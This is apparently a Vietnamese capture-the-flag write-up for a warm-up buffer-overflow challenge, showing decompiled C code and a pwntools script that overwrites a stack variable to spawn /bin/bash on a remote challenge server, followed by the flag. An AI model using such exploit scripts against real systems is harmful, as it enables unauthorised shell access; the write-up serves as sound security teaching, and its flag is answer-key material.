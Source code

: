 # Đề bài
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v3; // ebx
  int v4; // ebp
  int v6; // [esp-3Ch] [ebp-3Ch]
  int v7; // [esp-38h] [ebp-38h]
  int v8; // [esp-34h] [ebp-34h]
  int v9; // [esp-30h] [ebp-30h]
  int v10; // [esp-2Ch] [ebp-2Ch]
  int v11; // [esp-28h] [ebp-28h]
  int v12; // [esp-24h] [ebp-24h]
  int v13; // [esp-20h] [ebp-20h]
  signed int v14; // [esp-14h] [ebp-14h]
  int *v15; // [esp-10h] [ebp-10h]
  int v16; // [esp-Ch] [ebp-Ch]
  int v17; // [esp-8h] [ebp-8h]
  void *v18; // [esp-4h] [ebp-4h]
  void *retaddr; // [esp+0h] [ebp+0h]

  __asm { endbr32 }
  v18 = retaddr;
  v17 = v4;
  v16 = v3;
  v15 = &argc;
  setup();
  sub_80490B0("Tell me your birthday?", v6, v7, v8, v9, v10, v11, v12, v13);
  v14 = 30;
  sub_80490A0(0, &v10);
  if ( v14 == 0xCABBFEFF )
    run_cmd("/bin/bash");
  else
    run_cmd("/bin/date");
  return 0;
}
```
Đây là 1 bài buffer overflow cơ bản, chỉ cần ghi đè giá trị của biến `v14` thành `0xCABBFEFF` là có thể thực thi lệnh `/bin/bash`

# Script
```python3
from pwn import *

r = remote('61.28.237.24', 30200)

print(r.recvuntil('Tell me your birthday?'))
payload = b'A' * 24
payload += p32(0xCABBFEFF)
r.sendline(payload)
r.interactive()
```
Flag: HCMUS-CTF{Just_A_Warm_Up_Pwn}
